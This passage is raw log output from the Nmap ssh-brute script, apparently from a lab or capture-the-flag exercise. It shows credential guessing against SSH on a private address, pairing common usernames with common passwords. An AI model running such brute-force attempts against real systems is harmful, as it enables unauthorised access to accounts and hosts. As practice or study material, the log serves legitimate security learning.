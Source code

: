 NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:lovely
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:654321
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:michael
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:jessica
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:111111
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:ashley
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:000000
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:000000
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:000000
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:000000
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:000000
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:000000